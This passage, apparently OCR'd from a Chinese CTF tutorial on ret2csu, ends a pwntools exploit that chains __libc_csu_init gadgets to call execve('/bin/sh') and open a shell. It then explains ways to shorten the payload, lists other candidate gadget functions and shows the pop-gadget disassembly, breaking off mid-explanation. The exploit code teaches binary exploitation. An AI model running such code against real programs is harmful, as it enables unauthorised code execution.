     ## read(0,bss_base,16)
    ## read execve_addr and /bin/sh\x00
    sh.recvuntil('Hello, World\n')
    csu(0, 1, read_got, 16, bss_base, 0, main_addr)
    sh.send(p64(execve_addr) + '/bin/sh\x00')

    sh.recvuntil('Hello, World\n')
    ## execve(bss_base+8)
    csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)
    sh.interactive()

### 改进

用此处的通用gadgets，输入的字节长度较长，有的情况下不允许有这样长的payload。因此：

*   改进1 提前控制`rbx`和`rbp`

可以看到`rbx`和`rbp`在里面唯一的作用就是用来满足继续执行的条件，因此`rbx=0`，`rbp=1`可以事先设置好

*   改进2 多次利用

顾名思义，将这里的通用`gadgets`分成多次使用（可以用分成的很直观的那两段）。但两次触发之间，要保证程序不会修改`r12-r15`寄存器，因为在两段之间需要用到。

其实长`payload`和多个`payload`还是要看程序的情况，只可以长`payload`但只能利用一次程序也不是不可能。

### 其他的可能可用的gadgets

    _init
    _start
    call_gmon_start
    deregister_tm_clones
    register_tm_clones
    __do_global_dtors_aux
    frame_dummy
    __libc_csu_init
    __libc_csu_fini
    _fini
    // 这些函数也会默认被gcc编译，也可以尝试用其中的代码来执行。

以及：在`_libc_csu_init`里面其实可以有其他的利用方法。

我们看这一段：

    .text:000000000040072A                 pop     rbx
    .text:000000000040072B                 pop     rbp
    .text:000000000040072C                 pop     r12
    .text:000000000040072E                 pop     r13
    .text:0000000000400730                 pop     r14
    .text:0000000000400732                 pop     r15
    .text:0000000000400734                 retn

看似是这样，但是我们反编译一下：（`objdump -d`）（地址不一样，因为不是一个程序，下面用图里面的地址）

